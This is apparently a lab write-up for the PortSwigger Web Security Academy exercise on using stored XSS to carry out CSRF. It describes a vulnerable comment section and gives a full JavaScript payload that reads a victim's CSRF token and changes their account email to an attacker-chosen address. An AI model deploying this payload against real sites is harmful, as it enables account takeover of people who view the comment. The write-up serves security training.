



# Lab: Exploiting XSS to perform CSRF

**Link**: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

**Solution**:

We notice, that there is **Stored XSS** in the comment section

<p align="center" width="100%">
  
</p>

And in the change-email, there is a CSRF token

<p align="center" width="100%">
  
</p>

The Idea here is create a javascript code with Ajax to get (GET Request) the CSRF token from /my-account in a DOM (hidden) Input

Then, Send POST like above request to change the email with given CSRF token

<p align="center" width="100%">
  
</p>

So the steps is 

- 1- Get CSRF token from DOM GET request
- 2- Send POST request to change email with this CSRF token

The following code will change the email to `aboelkassem.me@gmail.com` to anyone view this comment

```jsx
<script>
	function performAccountTakeOver(token){
		var url = '/my-account/change-email';
	  var params = 'csrf='+token+'&email=aboelkassem.me@gmail.com';
		var emailRequest = new XMLHttpRequest();
		emailRequest.open('POST', url, true);
		emailRequest.send(params);
	}
	
	var req = new XMLHttpRequest();
	req.onreadystatechange = function(){
		if(req.readyState == 4){ // success
			var htmlResponse = req.responseText;
			var parser = new DOMParser().parseFromString(htmlResponse, 'text/html');
			var token = parser.getElementsByName('csrf')[0].value;
			performAccountTakeOver(token);
		}
	}
	
	req.open('GET', '/my-account', true);
	req.send();
</script>
```

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>
